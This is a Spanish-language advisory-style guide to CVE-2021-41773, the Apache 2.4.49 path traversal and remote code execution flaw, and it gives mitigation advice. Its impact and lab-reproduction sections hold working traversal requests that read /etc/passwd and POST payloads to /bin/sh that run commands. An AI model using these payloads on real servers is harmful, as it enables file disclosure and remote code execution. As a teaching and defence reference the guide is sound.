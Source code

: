 # CVE-2021-41773 Guía de Vulnerabilidad del Servidor Apache HTTP

## 🔎 Descripción General

- **CVE-2021-41773** afecta al servidor Apache HTTP **2.4.49**. Debido a un cambio defectuoso en la normalización de rutas, los atacantes pueden evadir los controles de seguridad usando codificaciones de URL especialmente diseñadas.
- El resultado es una **travesía de rutas** que puede exponer archivos sensibles. Si **mod_cgi** está habilitado, la vulnerabilidad también permite **ejecución remota de código (RCE)**.
- La explotación requiere una configuración no predeterminada de Apache (por ejemplo, `<Directory /> Require all granted`).

## ⚠️ Impacto

- **Divulgación de Archivos**:
  ```http
  GET /cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd
  ```
- **Ejecución Remota de Código (con mod_cgi)**:
  ```http
  POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh
  Content-Type: application/x-www-form-urlencoded

  echo;id
  ```
  Esto puede ejecutar comandos arbitrarios del sistema.

## 🧪 Reproducción (Solo en Laboratorio Aislado)

1. **Instalar Apache 2.4.49**.
2. Configurar Apache con:
   ```apache
   <Directory />
     Require all granted
   </Directory>
   LoadModule cgid_module modules/mod_cgid.so
   ```
3. **Probar la travesía de rutas**:
   ```bash
   curl "http://localhost/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd"
   ```
4. **Probar RCE**:
   ```bash
   curl -X POST "http://localhost/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh" \
        -d "echo;id"
   ```

**Usar solo en entornos aislados y legalmente controlados.**

## 🛡️ Mitigación

1. **Actualizar a Apache 2.4.51 o superior**.
2. **Revisar configuraciones**:
   - Evitar usar `<Directory /> Require all granted`.
   - Preferir `Require all denied` como predeterminado.
3. **Deshabilitar mod_cgi/mod_cgid** si no es necesario.
4. **Aplicar defensa en profundidad**:
   - Firewalls de aplicaciones web (WAF) que filtren secuencias de puntos codificados.
   - Monitorear solicitudes POST relacionadas con CGI.

## 📝 Glosario

- **Travesía de Rutas**: Explotación de directorios para acceder a archivos no intencionados.
- **%2e**: Codificación URL para `.` (punto).
- **mod_cgi**: Módulo de Apache para ejecutar scripts como shell o Perl.
- **Require all granted/denied**: Directivas de control de acceso de Apache.

## ✅ Tabla Resumen

| Aspecto              | Detalles                               |
|----------------------|----------------------------------------|
| Versiones Afectadas  | Apache 2.4.49                          |
| Condiciones Requeridas | mod_cgi habilitado, Directorio permisivo |
| Tipos de Explotación | Lectura de archivos, RCE              |
| Versión Corregida    | Apache 2.4.51                          |
| Nota de Seguridad    | Probar solo en entornos aislados      |

## 🔄 Próximos Pasos

- Auditar las configuraciones de Apache.
- Actualizar todas las instalaciones de la versión 2.4.49.
- Solicita ayuda para reglas de firewall o para una exploración técnica más profunda.
